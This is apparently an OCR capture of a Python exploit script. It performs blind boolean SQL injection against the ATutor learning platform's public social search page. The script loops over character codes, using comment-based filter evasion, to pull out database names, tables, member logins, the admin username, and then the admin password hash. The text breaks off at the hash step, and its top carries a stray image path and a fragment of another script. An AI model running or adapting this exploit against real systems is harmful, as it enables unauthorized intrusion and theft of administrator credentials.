 ```

if __name__ == "__main__":
    main()


```

Get admin user password

'''

import requests
import sys

def searchFriends_sqli(ip, inj_str):
    for j in range(32, 126):
        # now we update the sqli
        target      = "http://%s/ATutor/mods/_standard/social/index_public.php?q=%s" % (ip, inj_str.replace("[CHAR]", str(j)))
        r = requests.get(target)
        #print r.headers
        content_length = int(r.headers['Content-Length'])
        if (content_length > 20):
            #print (j)
            return j
    return None    

def inject(r, inj, ip):
    extracted = ""
    for i in range(1, r):
        injection_string = "test'/**/or/**/(ascii(substring((%s),%d,1)))=[CHAR]/**/or/**/1='" % (inj,i)
        retrieved_value = searchFriends_sqli(ip,  injection_string)
        if(retrieved_value):
            extracted += chr(retrieved_value)
            extracted_char = chr(retrieved_value)
            sys.stdout.write(extracted_char)
            sys.stdout.flush()
        else:
            print("\n(+) done!")
            break
    return extracted

def main():
    if len(sys.argv) != 2:
        print("(+) usage: %s <target>"  % sys.argv[0])
        print('(+) eg: %s 192.168.121.103'  % sys.argv[0])
        sys.exit(-1)

    ip = sys.argv[1]

    print("(+) Retrieving username....")
    #query = "select/**/user()"
    #query = "select/**/group_concat(0x7c,schema_name,0x7C)/**/from/**/information_schema.schemata"
    #query = "select/**/group_concat(0x7c,table_name,0x7C)/**/from/**/information_schema.tables/**/where/**/table_schema='atutor'/**/and/**/table_name='AT_members'"
    #query = "select/**/group_concat(0x7c,column_name,0x7C)/**/from/**/information_schema.columns/**/where/**/table_schema='atutor'/**/and/**/table_name='AT_members'"
    #query = "select/**/group_concat(0x7c,login,0x7C)/**/from/**/AT_members"
    #query = "select/**/group_concat(0x7c,column_name,0x7C)/**/from/**/information_schema.columns/**/where/**/table_schema='atutor'/**/and/**/table_name='AT_admins'"
    #query = "select/**/group_concat(0x7c,login,0x7C)/**/from/**/AT_admins/**/where/**/table_schema='atutor'/**/and/**/table_name='AT_admins'"
    query = "select/**/login/**/from/**/AT_admins/**/where/**/login='admin'"
    username = inject(50, query, ip)
    print("(+) Retrieving password hash....")